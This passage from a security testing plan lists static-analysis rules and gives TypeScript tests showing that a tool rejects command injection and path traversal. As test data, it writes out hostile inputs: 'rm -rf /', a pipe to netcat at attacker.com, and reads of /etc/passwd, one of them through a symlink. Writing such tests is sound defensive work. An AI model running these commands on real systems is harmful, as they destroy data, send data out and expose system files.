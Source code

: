 **Rules to Enforce**:
- No `eval()` or `Function()` constructor
- No `child_process.exec()` or `shell: true`
- No hardcoded secrets
- No SQL injection patterns
- No path traversal patterns

### 2. Dynamic Application Security Testing (DAST)

**Test Scenarios**:

```typescript
// tests/security/command-injection.test.ts
describe('Command Injection Prevention', () => {
  it('should reject shell metacharacters', async () => {
    const malicious = 'task; rm -rf /';
    await expect(executeTask(malicious)).rejects.toThrow('Invalid input');
  });

  it('should reject command chaining', async () => {
    const malicious = 'task && malicious-command';
    await expect(executeTask(malicious)).rejects.toThrow('Invalid input');
  });

  it('should reject pipe commands', async () => {
    const malicious = 'task | nc attacker.com 1234';
    await expect(executeTask(malicious)).rejects.toThrow('Invalid input');
  });
});

// tests/security/path-traversal.test.ts
describe('Path Traversal Prevention', () => {
  it('should reject parent directory traversal', async () => {
    const malicious = '../../etc/passwd';
    await expect(readFile(malicious)).rejects.toThrow('Path not allowed');
  });

  it('should reject absolute paths outside allowed dirs', async () => {
    const malicious = '/etc/passwd';
    await expect(readFile(malicious)).rejects.toThrow('Path not allowed');
  });

  it('should reject symlink attacks', async () => {
    // Create symlink to /etc/passwd
    await fs.symlink('/etc/passwd', '.automatosx/link');
    await expect(readFile('.automatosx/link')).rejects.toThrow('Path not allowed');
  });
});
```

### 3. Dependency Vulnerability Scanning
